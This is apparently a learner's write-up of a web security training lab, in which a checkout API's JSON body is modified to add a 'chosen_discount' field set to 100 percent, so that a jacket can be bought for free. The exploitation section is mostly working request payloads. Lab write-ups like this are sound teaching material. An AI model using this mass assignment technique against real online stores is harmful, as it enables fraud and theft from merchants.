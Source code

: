 # 🧪 Lab: Exploiting a mass assignment vulnerability

## 📋 Lab Description

**Goal:**  
To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

**Level:** Practitioner  
**Status:** ✅ *Completed*

---

## 🔍 Phase 1: Reconnaissance

- Logged in using the provided credentials: `wiener:peter`
- Explored the application to identify visible functionality
- Captured and reviewed HTTP requests using Burp Suite
- Identified existing endpoints, such as:
  - `/api/products`
  - `/api/user/cart`
- Noticed the API request GET `/api/checkout` used for the checkout contain a JSON object
  -```
  {
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "name":"Lightweight \"l33t\" Leather Jacket","quantity":1,
                "item_price":133700
            }
        ]
    }
  ```

---

## 🧪 Phase 2: Testing & Errors

- Tried changing the API request: I sent POST `/api/checkout` adding `chosen_discount` as a parameter in the json object--> No error retrived 
```
{
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
→
```
{
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
- Tried to change the value of the `percentage` in a char --> got the error invalid value

---

## 🎯 Phase 3: Exploitation

- I sent a POST `/api/checkout` with the payload to get a 100% discount for the article: 

```
{
        "chosen_discount":{
            "percentage":100
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
